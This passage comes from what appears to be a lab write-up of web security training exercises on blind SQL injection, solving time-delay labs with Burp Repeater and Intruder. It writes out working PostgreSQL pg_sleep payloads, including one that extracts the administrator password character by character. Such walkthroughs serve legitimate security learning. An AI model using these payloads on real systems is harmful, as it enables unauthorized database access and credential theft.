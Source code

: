 Logging in with these credentials will solve the lab.

![](/assets/images/SQLi/Pasted%20image%2020250930182939.png)

### 14. Blind SQL injection with time delays

Payload that worked:

'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--

Explanation:

We use the following payload to trigger a 10 second delay. If the condition is true, then there should be a delay, which becomes true.

```
'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```

We intercept the request and send it using repeater.

![](/assets/images/SQLi/Pasted%20image%2020250930234127.png)

This solves the lab.

![](/assets/images/SQLi/Pasted%20image%2020250930234145.png)

### 15. Blind SQL injection with time delays and information retrieval

Payload that worked:

```
'||(SELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),X,1)='X')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

Explanation:

I started the lab by triggering a time delay. The following payload works as admdinistrator is 13 characters long.

```
'||(SELECT+CASE+WHEN+((LENGTH((SELECT+username+FROM+users+where+username='administrator')))=13)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

Since the previous passwords were 20 character's long, I checked directly for it to be 20 character's long. 

![](/assets/images/SQLi/Pasted%20image%2020251001000849.png)

```
'||(SELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),X,1)='X')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

I used the intruder like before to send requests. Make sure to use a single thread from the intruder resource pool.

